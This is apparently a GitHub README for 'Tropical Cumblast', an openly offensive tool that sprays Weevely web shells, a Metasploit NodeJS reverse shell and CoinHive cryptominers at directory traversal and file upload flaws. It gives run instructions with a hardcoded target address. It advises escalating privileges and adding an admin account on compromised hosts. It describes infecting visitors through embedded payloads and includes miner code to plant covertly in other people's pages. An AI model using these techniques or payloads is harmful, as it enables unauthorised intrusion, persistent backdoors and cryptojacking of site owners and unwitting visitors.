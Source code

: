 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon



Written in under a day using

1. Python Requests


2. Needs dotdotpwn reports so it has something to parse


3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer

[!](https://raw.githubusercontent.com/tanc7/tropicalblast/master/running.png)

All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

**list_of_injectable_links** = "/root/dumppvulns.log"


**target** = "http://104.27.155.158:80"


**payload** = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...

**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
    </script>
    
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
    </script>
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. 

If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from

      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
# Frighteningly enough, you can even blast websites with persistent cryptominers on it.

First make a account on CoinHive. https://coinhive.com/. Don't forget to get yourself a web wallet too for the Monero you'll be making.

Then take a look at the CONSENSUAL MINER CODE and merely replace the source web app link as so.

```
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
```
Here is the completed work. All you need to do is switch the src javascript file and add your official CoinHive key. Be sure to encrypt it when you actually use this blaster.

```
 <script src="https://coinhive.com/lib/coinhive.min.js"></script>
  <script>
  	var miner = new CoinHive.Anonymous('mPVwGCQgKvckboARWHMIe3CYLTISHSzU', {throttle: 0.3});

  	// Only start on non-mobile devices and if not opted-out
  	// in the last 14400 seconds (4 hours):
  	if (!miner.isMobile() && !miner.didOptOut(14400)) {
  		miner.start();
  	}
  </script>
```

Finally you want to enclose it with a ordinary webpage's syntax

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner"
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
  </body>
</html>
```

Or just download someone else's page with wget or httrack and then slip this code in there before loading it into the cannon.


